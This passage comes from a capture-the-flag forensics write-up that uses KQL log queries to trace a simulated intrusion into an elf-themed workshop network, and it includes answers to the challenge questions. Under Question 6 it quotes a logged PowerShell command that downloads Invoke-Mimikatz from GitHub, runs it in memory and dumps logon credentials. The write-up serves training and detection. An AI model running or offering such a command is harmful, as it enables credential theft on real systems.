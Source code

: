 This one is fairly straightforward.

```sql
AuthenticationEvents
| where src_ip == "182.56.23.122"
| project hostname
```

Answer: `WebApp-ElvesWorkshop`

#### Question 6

> It appears someone accessed the WebApp-ElvesWorkshop from the IP address `182.56.23.122`. This could be a key moment in the attack. We need to investigate what was run on the app server and, more importantly, if the threat actor dumped any credentials from it.
>
> Eve Snowshoes, "Accessing the web app from an external IP is a major red flag. If they managed to dump credentials from the app server, that could explain how they gained access to other parts of the system."
>
> **What was the script that was run to obtain credentials?**

For this one, we first need to find the timestamp of the first successful login from the given IP. Then, we look up all process events after this timestamp.

```sql
let login_time = toscalar(AuthenticationEvents
| where result == "Successful Login"
| where src_ip == "182.56.23.122"
| sort by timestamp asc
| project timestamp);
ProcessEvents
| where hostname == "WebApp-ElvesWorkshop"
| where timestamp > login_time
| sort by timestamp asc
```

There are again quite a few results, but the first one jumps out already.

```bat
powershell.exe -Command "IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command "privilege::debug" "sekurlsa::logonpasswords"
```

This clearly shows that a script is being downloaded.

Answer: `Invoke-Mimikatz.ps1`

#### Question 7

> Okay back to Noel, after downloading the file, Noel Boetie followed the instructions in the email and ran it, but mentioned that nothing appeared to happen.
>
> Since the email came from an internal source, Noel assumed it was safe - yet this may have been the moment the unknown threat actor silently gained access. We need to identify exactly when Noel executed the file to trace the beginning of the attack.
>
> Eve Snowshoes, "It’s easy to see why Noel thought the email was harmless - it came from an internal account. But attackers often use compromised internal sources to make their phishing attempts more believable."
>
> **What is the timestamp where Noel executed the file?**
